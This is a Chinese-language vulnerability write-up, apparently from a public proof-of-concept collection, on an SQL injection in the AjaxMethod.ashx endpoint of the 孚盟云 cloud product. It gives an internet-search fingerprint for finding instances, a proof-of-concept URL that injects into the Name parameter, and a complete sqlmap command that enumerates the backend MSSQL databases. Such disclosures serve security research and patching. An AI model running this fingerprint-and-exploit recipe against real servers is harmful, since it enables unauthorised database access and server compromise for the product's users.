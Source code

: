 # 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
孚盟云
```

## 网络测绘

```
title="孚盟云 "
```

## 漏洞复现

登录页面



![image-20220210184424096](./images/202202101844185.png)



验证POC



```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```

![image-20220210184439151](./images/202202101844214.png)



使用Sqlmap



```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```



![image-20220210184456424](./images/202202101844599.png)